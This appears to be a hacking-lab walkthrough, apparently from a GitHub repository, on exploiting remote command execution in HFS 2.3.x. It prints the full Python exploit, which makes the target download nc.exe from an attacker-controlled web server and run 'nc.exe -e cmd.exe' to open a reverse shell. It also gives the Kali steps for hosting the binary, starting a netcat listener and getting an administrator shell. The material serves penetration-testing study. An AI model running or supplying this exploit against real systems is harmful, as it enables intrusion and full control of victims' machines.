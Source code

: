 # HFS 2.3.x remote command execution 

<https://www.exploit-db.com/exploits/39161>

after decode the whole exploit, we can see

~~~~python
#!/usr/bin/python
...
import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " save ".}")

	def execute_script():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " exe ".}")

	def nc_run():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " exe1 ".}")

	ip_addr = "192.168.1.13" #local IP address
	local_port = "443" # Local Port number
	
    vbs = "C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with"

	save= "save|"   vbs
	vbs2 = "cscript.exe C:\Users\Public\script.vbs"
	exe= "exec|" vbs2
	vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
	exe1= "exec|" vbs3
    
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
~~~~

## Background Knowledge

**netcat** is a simple unix utility which reads and writes data across network connections, using TCP or UDP protocol. It has both Windows and Linux version.

- It is a versatile command which can assist you in monitoring, testing, and sending data across network connections.

- Netcat is not restricted to sending TCP and UDP packets. It also can listen on a port for connections and packets.  

![1559891515085](.\pic\reverseShellSenario.JPG)

# Prepare for the attack

let's launch the attack from famous Kali. Before exploit the vulnerability of HFS, we need to have some simple set up on Kali.

## setup simple http server with python

~~~~bash
#> python3 -m http.server 80
~~~~

![t <](.\pic\1559887359290.png)

## prepare nc.exe for being downloaded from victim machine

copy nc.exe from /usr/share/windows-binaries/ to the same location where we start http server, so when exploit is running on the victim machine, the nc.exe will be downloaded from here.

```bash
#> cp /usr/share/windows-binaries/nc.exe .
```



## run netcat on Kali to listen for connection from victim machine

~~~~bash
#> nc -lvnp 443
~~~~

# start exploit

## run the python script for HFS RCE

~~~~bash
#> python ./39161.py
~~~~

now we get the reverse connection from windows

![1559891951200](.\pic\getReverseShell.JPG)

It look like the HFS is running as admin, so we get the control as administrator after get our command executed remotely, pretty simple!

let's take a look at what happened on the victim windows. Under the C:\Users\Public\, we see nc.exe and script just generated by the exploit.

![1559892252642](.\pic\snapshotOfCompromisedWindows.JPG)